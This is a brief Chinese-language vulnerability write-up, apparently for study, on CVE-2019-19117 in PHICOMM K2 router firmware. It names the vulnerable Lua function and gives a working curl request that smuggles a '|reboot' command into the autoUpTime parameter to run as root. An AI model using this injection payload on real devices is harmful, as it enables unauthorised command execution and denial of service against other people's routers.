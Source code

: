 学习参考

```
https://wiki.96.mk/IOT%E5%AE%89%E5%85%A8/PHICOMM/%EF%BC%88CVE-2019-19117%EF%BC%89PHICOMM%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/
```



# 1. 漏洞简介

> 通过修改HTTP post请求中的内容，在根shell上远程执行命令。

# 2. 漏洞影响

漏洞影响版本：

`PHICOMM K2(PSG1218) V22.5.9.163`

漏洞版本固件下载：

```
https://github.com/mayunbaba2/K2/blob/master/k2_163_org.rar
```



# 3. 漏洞分析

`usr/lib/lua/luci/controller/admin/autoupgrade.lua`

中的`save`函数。

![image-20240825120714999](./CVE-2019-19117 PHICOMM 远程代码执行/images/image-20240825120714999.png)

而且这个`time`就是来自http的请求参数`autoUpTime`，所以利用起来也很简单。

```bash
curl -i -s -k -v -X'POST'  -e "http://192.168.2.1/cgi-bin/luci/;stok=xxx/xxx/xxx/xxx" -b "sysauth=4a2c4bdba5fb1273ce62759fd42dba42" --data-binary "mode=1&autoUpTime=02%3A05|reboot" 'http://192.168.2.1/cgi-bin/luci/;stok=xxx/admin/xxx/xxx/xxx'
```

这就可以造成DoS攻击。